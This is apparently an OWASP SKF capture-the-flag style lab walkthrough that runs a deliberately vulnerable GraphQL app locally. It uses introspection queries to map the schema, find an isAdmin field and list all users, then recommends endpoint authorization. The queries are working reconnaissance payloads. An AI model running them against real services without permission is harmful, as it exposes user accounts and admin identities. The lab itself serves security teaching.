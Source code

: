 # GraphQL Introspection

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:graphql-info-introspection
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:graphql-info-introspection
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

![](../../.gitbook/assets/graphql-introspection1.png)

## Exploitation

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported.

Let' use the `GraphiQL` UI to send queries to the backend and discover what is available.

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `UserObject` one. If we build a more complex query we can ask for more information, exploring every field available. Let's send the following:

```
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
        ofType {
          name
          kind
        }
      }
    }
  }
}
```

In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```javascript
{
  "data": {
    "__type": {
      "name": "UserObject",
      "fields": [
        {
          "name": "uuid",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        },
        {
          "name": "username",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "isAdmin",
          "type": {
            "name": "Boolean",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "posts",
          "type": {
            "name": "PostObjectConnection",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "id",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        }
      ]
    }
  }
}
```

> BINGO! We have some good information here

We can see that there is an interesting field `isAdmin`, that we can use to find out who is the admin of the application.

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
query availableQueries {
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

That will give us the `allUsers` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
  allUsers {
    edges {
      node {
        username
        isAdmin
      }
    }
  }
}
```

## Solution

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.

## Additional resources
